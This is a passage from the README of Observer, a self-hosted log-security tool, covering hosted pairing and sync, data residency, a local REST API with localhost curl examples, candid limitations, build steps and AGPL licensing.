The installer asks for a pairing code at the end of a fresh install or reinstall. Blank keeps a fresh box local-only, or leaves an existing pairing alone. The `--url` is required the first time; once `SYNC_URL` is set, plain `vaultguardian pair <code>` works for re-pairing. Manual installs without the wrapper: `sudo observer pair --url https://vaultguardian.io VG-XXXXX-XXXXX-XXXXX-XXXXX-XXXXXX`. Codes expire after 15 minutes and are single-use. Generate another for the same instance if yours expires or is lost. If the installer already redeemed a code, do not run it again.

Pairing stops Observer, claims the code, writes the `SYNC_*` values to `observer.env` atomically, and starts the service. The hosted claim rotates the sync token and command epoch. **Re-pairing an already-paired instance deletes its hosted findings, decisions, stats and snapshot, and cancels pending commands.** Generating the code alone does not wipe anything; the successful claim does. Observer re-syncs what it still holds locally. History no longer on the box cannot be recovered from that mirror, and cancellation does not undo a command already applied locally. **If the claim fails after the stop, the standalone `pair` command leaves Observer stopped and the env untouched.** Retry with a fresh code, or remove the sync settings and start it yourself for local-only. The installer's pairing step has its own recovery path that restarts the service, and on an upgrade that can resume the old pairing, so check `systemctl status observer` and the env file instead of assuming.

To go back to local-only, remove the `SYNC_*` lines from `observer.env` and restart. With `SYNC_URL`/`SYNC_TOKEN` unset, no sync code runs at all.

What sync actually sends: findings and LLM decision records (which include their raw log lines and any redacted evidence previews), plus pipeline stats, pattern data, trusted IPs, and REC coverage snapshots. It never streams your raw log feed. Be aware that the log lines attached to findings are the original lines, not run through the REC preview redactor. With sync unset, the sync client sends nothing to VaultGuardian. Other configured endpoints remain independent. Using local Ollama does not turn sync or notifications off; those are separate switches. When paired, the command channel also polls outbound for signed dashboard actions (default 30 s). A queued correction is not yet applied: the box verifies it, invokes the local handler, records a receipt, and acknowledges the result. The dashboard can show stored records while a box is offline. Its configured pruning job removes findings/decisions older than 90 days by event time and stats older than 30 days by server capture time; this describes the application job, not verified deletion from backups or provider logs. Removing the instance cascades its hosted records and commands, without deleting local state. See the [dashboard docs](https://vaultguardian.io/docs/observer/dashboard#data-residency) for the full boundary.

### Local API

Observer exposes a REST API on `DASHBOARD_PORT`, bound to `127.0.0.1` by default. Everything except `/api/health` requires the bearer token from `/etc/vaultguardian/dashboard.key`. Pairing never exposes this listener; the sync engine calls the same handlers over an authenticated local HTTP connection, so hosted access still needs no inbound connection.

The API provides:

- Security findings (events, verdicts, evidence)
- Pipeline stats (cache rate, LLM calls)
- Pattern store inspection (scopes, learned patterns)
- LLM decision audit trail
- Trusted IP management
- REC coverage and pipeline loss/correlation telemetry

For operators who prefer direct API access, query the local endpoint:

```bash
# Pipeline stats
curl -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/stats

# Recent findings
curl -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/findings?limit=50

# Add a trusted IP
curl -X POST -H "Authorization: Bearer $(sudo cat /etc/vaultguardian/dashboard.key)" \
  -H "Content-Type: application/json" \
  -d '{"ip":"203.0.113.42","description":"Office"}' \
  http://localhost:9090/api/trusted-ips
```

`/api/findings?verdict=recon` gives you stored probe findings; `/api/stats` has the suppressed-noise counts. This repo is the local API and sync client; the hosted UI ships separately.

---

## What Observer is not

Honest disclaimers. Security tools that overclaim are worse than security tools that don't exist:

- **Not a replacement for patching.** Observer telling you an attack failed because it hit a 404 doesn't mean the application is secure. Patch your stuff.
- **Not a full SIEM.** Observer focuses on log security and response-evidence verification. It doesn't do log aggregation across infrastructure, compliance reporting, or long-term forensic storage. If you have a SIEM, Observer complements it; it does not replace it.
- **Not a firewall or IPS.** Observer observes. It doesn't block traffic, drop connections, or modify packets. Use it alongside a real edge filter.
- **Not magic exploit detection.** REC captures HTTP response evidence when it can. Edge cases (mid-stream attach during Observer restart, responses generated upstream of the sniffed device, encrypted tunnels that don't traverse the sniffed namespace) produce findings without evidence. Eligible unresolved HTTP findings are later marked `evidence_unavailable`; missing or suppressed observations cannot be recovered by that label.
- **Not a guarantee.** No security tool is. Observer reduces alert fatigue and surfaces real impact when it can. It does not eliminate the need for skilled operators.

---

## Project structure

```
├── main.go                     # Pipeline wiring, coordinator, reconciler
├── llmscheduler.go             # Bounded LLM retry / scheduler queue
├── resultrouter.go             # Shared classification outcome handler
├── reclasscache.go             # Reclassification (evidence) cache
├── httpparse.go                # HTTP request/response parsing helpers
├── seeds.go                    # Curated malicious pattern seeds
├── config.go                   # Environment variable configuration
├── install.sh                  # One-command installer
├── release.sh                  # Build, test, tag, and publish a release
├── docs/                       # Configuration reference + images
├── internal/
│   ├── analyzer/               # Normalize → match → classify → learn
│   ├── api/                    # REST API + bearer token auth
│   ├── coordinator/            # Evidence huddle + catch-all suppression
│   ├── event/                  # Canonical event model
│   ├── llm/                    # LLM client, Tier 1 + Tier 2 prompts
│   ├── normalizer/             # Source-specific log normalization
│   ├── notifier/               # Email, webhook, SMS, APNs, FCM (env-configured)
│   ├── patternstore/           # 4-bucket, 4-tier pattern matching
│   ├── policy/                 # Deterministic pre-LLM policy engine
│   ├── rec/                    # Response Evidence Capture (AF_PACKET)
│   ├── requestcorr/            # Trusted-ID lineage tracker
│   ├── sync/                   # Outbound hosted sync and signed command polling
│   ├── store/                  # SQLite persistence (findings, decisions, async writer)
│   └── watcher/                # Docker + journald log streaming
└── README.md
```

---

## Build from source

```bash
git clone https://github.com/VaultGuardian/observer.git
cd observer

# Test
go test ./...

# Build for Linux
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -o observer .
```

Requires Go 1.25+.

---

## Contributing

Normalizer selection uses source scope/name, family-name substring matching, collector type, then a generic fallback. A custom app format can retain changing fields and get poor reuse. Low reuse alone is not a diagnosis. Existing `[hints]` log suggestions are developer input, not an operator guidance system or automatically applied normalizer rules.

Observer's normalizers are the primary contribution path. Each normalizer teaches Observer to recognize a specific service's log format, improving hash-hit rates and reducing LLM calls.

Observer falls back to a generic normalizer for logs delivered by its Docker and journald watchers. Parsing, policy coverage, and evidence correlation still depend on supported formats. Service-specific normalizers can improve repeat recognition and reduce model calls.

To add a normalizer:

1. Create `internal/normalizer/yourservice.go` implementing the `Normalizer` interface
2. Register it in `normalizer.go`
3. Add tests in `normalizer_test.go`

---

## License

Observer is licensed under [AGPL-3.0](LICENSE).

The Observer engine is available under AGPL-3.0 with no per-server license fee. Infrastructure, LLM, and notification costs are separate, and runtime queues/storage have limits. The optional hosted dashboard is listed at $29/mo after a 1-month free trial; see [current pricing](https://vaultguardian.io/pricing).

- **Self-hosting the released AGPL code has no per-server license fee.** You can run it on your own infrastructure under the license terms.
- **The [hosted dashboard](https://vaultguardian.io/dashboard)** is the optional commercial offering for operators who'd rather not query the API directly. The released Observer code remains AGPL regardless of which dashboard you use.
- **AGPL includes source-sharing obligations.** Distribution of covered code carries license and corresponding-source requirements. If you modify the program and let users interact with that version over a network, section 13 requires offering those users its corresponding source. Commercial use is permitted subject to the license; the obligations are not limited to large cloud providers. Read [LICENSE](LICENSE) for the terms.

If you're unsure whether your use case falls within the license, open an issue and ask.

---

## Issues and contact

- **Bugs / feature requests:** [GitHub Issues](https://github.com/VaultGuardian/observer/issues)
- **Security disclosures:** `security@vaultguardian.io`
- **General questions:** [GitHub Discussions](https://github.com/VaultGuardian/observer/discussions) or `hello@vaultguardian.io`

Observer came out of building [VaultDEC-1](https://vaultguardian.io), an inline egress-control project intended to interrupt transfers that violate its policy. Observer addresses an earlier part of that problem: making suspicious activity and observable exploit outcomes visible from the logs and response channels it watches.

Observer covers observable probes, recon, and exploit evidence so an operator can investigate while activity is happening, within the coverage and overload limits above.

If it's useful to you, a star on the repo helps it find other people in the same situation.

---

*Part of the [VaultGuardian](https://vaultguardian.io) ecosystem. Observer surfaces observable attack evidence. [DEC-1](https://vaultguardian.io) focuses on egress enforcement.*
